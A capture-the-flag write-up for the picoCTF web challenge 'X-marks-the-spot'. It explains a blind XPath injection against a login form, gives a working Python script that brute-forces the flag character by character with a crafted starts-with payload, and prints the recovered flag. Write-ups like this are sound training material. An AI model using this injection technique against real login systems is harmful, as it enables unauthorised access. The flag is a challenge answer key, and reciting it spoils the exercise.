 # X-marks-the-spot
## Category
Web Exploitation
## Problem Description
Another login you have to bypass. Maybe you can find an injection that works? http://mercury.picoctf.net:20297/
## Approach
This is an XPATH injection. If an always true value is input in place of username a message pops up "You're on the right path.".<br>
Here we can use "starts-with()" operator which returns true if the passed characters are at the beginning of a document.
```python
import requests
from string import *

charecters = ascii_lowercase + digits+"}_"
print(charecters)

seen_password = ["picoCTF{h0p3fully_u_t0ok_th3_r1ght_xp4"]
while True:

    for ch in charecters:
        print(f"trying {''.join(seen_password)+ch}")
        st = ''.join(seen_password)+ch
        data = {"name":"admin", "pass":f"' or //*[starts-with(text(),'{st}')] or '1'='"}
        r = requests.post("http://mercury.picoctf.net:20297/", data=data)

        content = r.text
        if "You&#39;re on the right path." in content:
            seen_password.append(ch)
            break
```
Running the above script a bunch of times returns the flag.
## Flag
picoCTF{h0p3fully_u_t0ok_th3_r1ght_xp4th_a313a6a7}
